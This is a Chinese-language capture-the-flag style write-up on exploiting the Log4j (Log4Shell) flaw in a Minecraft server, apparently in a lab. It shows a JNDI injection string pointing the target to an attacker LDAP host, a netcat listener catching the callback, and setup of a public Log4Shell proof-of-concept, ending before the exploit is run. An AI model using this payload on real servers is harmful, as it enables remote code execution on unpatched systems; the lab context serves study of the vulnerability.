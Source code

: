 ### exploit log4j

参考这篇medium的[博客](https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847)
[TLAUNCHER启动器](https://tlauncher.org/)

```bash
sudo apt install ./tlauncher-linux-installer.deb -y
```

在kali的start menu就可以启动tlauncher
选择release 1.16.5

#### Minecraft-Console-Client

tlauncher下载的太慢了，并且现在tlauncher是.deb包，设置代理不太方便，直接换用命令行工具[Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client)

```bash
wget https://github.com/MCCTeam/Minecraft-Console-Client/releases/download/20250522-285/MinecraftClient-20250522-285-linux-x64
mv MinecraftClient-20250522-285-linux-x64 MinecraftClient && chmod +x MinecraftClient
sudo cp MinecraftClient /usr/local/bin
MinecraftClient
```

然后输入用户名，密码直接回车，输入靶机的IP地址即可连接

可以先做一下测试，ldap协议默认是389端口

```bash
sudo rlwrap -cAr nc -lvnp 389
```

```java
${jndi:ldap://10.10.14.25/test}
└─$ sudo rlwrap -cAr nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.249] 49682
0
0
0
 `
```

验证漏洞是存在的，那么现在找一个exploit直接利用即可

#### log4shell exploit

[log4j poc](https://github.com/kozmer/log4j-shell-poc)

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
python -m venv .
cd bin
source activate 
pip install -r  ../requirements.txt
```
